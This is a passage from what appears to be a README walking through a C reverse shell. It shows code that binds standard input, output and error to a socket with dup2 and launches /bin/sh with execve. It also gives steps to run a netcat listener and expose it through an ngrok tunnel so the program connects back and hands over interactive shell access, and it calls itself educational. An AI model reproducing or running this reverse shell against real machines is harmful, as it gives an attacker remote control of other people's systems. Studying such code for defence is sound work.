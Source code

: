```c
for (int i = 0; i < 3; i++) {
    dup2(sockfd, i);
}
```

* `dup2()` replaces **stdin (0), stdout (1), stderr (2)** with the socket.
* This means anything typed by the remote listener becomes input to the shell, and all shell output/errors go back over the socket.

---

### 7. Spawning the Shell

```c
execve("/bin/sh", NULL, NULL);
```

* Replaces the current process with `/bin/sh`.
* Since stdin/stdout/stderr are bound to the socket, the shell is now **remote-controlled**.

---

## 🔄 Flow of Execution

1. Local service (e.g., `nc -lvnp 4444`) runs on your machine.
2. You expose it with ngrok:

   ```bash
   ngrok tcp 4444
   ```

   → ngrok gives you `0.tcp.ap.ngrok.io:12163`.
3. The C program connects to this hostname/port.
4. The shell gets bound to the TCP socket.
5. You now have interactive shell access remotely.

---

## ⚠️ Notes

* `getaddrinfo()` makes this program portable with **hostnames** (not just raw IPs).
* On failure, `perror()` helps debug socket creation or connection issues.
* This program is for **educational purposes** (understanding sockets and tunneling).
* Exposing shells over the internet is **dangerous** if not secured.

---

![binary run](./img/binary.png)

